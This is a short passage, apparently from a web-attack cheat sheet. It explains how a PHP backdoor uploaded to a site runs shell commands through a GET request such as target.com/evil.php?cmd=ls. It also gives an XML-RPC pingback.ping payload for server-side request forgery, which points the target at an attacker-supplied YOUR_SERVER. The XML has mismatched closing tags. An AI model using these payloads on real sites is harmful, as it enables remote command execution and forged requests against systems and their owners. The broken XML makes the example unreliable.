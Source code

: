 <br>
The uploaded malicious php can be a backdoor. It allows the  attacker to execute malicious shell commands by sending a GET request to http://target.com/evil.php?cmd=ls

## XMLRPC SSRF
```xml
<methodCall>
 <methodName>pingback.ping</methodName>
  <params><param>
  <value><string>https://YOUR_SERVER</string></value>
</param><param>
<value><string>https://SOME_VALID_BLOG_FROM_THE_SITE</value></string>
</param></params>
</methodCall>
```

